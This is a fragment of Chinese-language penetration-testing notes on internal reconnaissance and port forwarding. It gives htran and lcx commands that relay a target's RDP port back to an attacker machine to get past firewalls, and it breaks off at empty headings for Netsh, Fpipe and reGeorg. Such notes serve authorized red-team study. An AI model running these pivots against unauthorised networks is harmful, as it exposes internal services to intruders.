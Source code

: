 ### 其他

```
1.主动扫描
nmap,netdiscover,ping等
2.被动嗅探本机流量(arp,smb,netbios)等
3.本机残留信息
```

## 端口转发

### 概念

在数据包用过网关(路由或防火墙)时,可将通信请求从一个地址和端口号组合重定向到另一个地址.

### 端口转发类型

●本地端口转发

●远程端口转发

●动态端口转发

### Windows下跨边界应用

#### Htran

```
#正向端口转发
	服务端 htran.exe -tran 8888 192.168.1.1 3389
	客户端 nc 服务端IP:8888
#反向端口转发
	攻击机 htran.exe -listen 1234 8888
	服务端 htran.exe -slave 攻击IP 1234 127.0.0.1 3389
	客户机 nc 127.0.0.1:8888
```

#### Lcx

```
#监听1234,转发到2333端口
lcx.exe -listen 1234 2333
#将目标3389转发到本地1234
lcx.exe -slave ip 1234 127.0.0.1 3389
```

#### Netsh

#### Fpipe

#### Socks代理

##### reGeorg
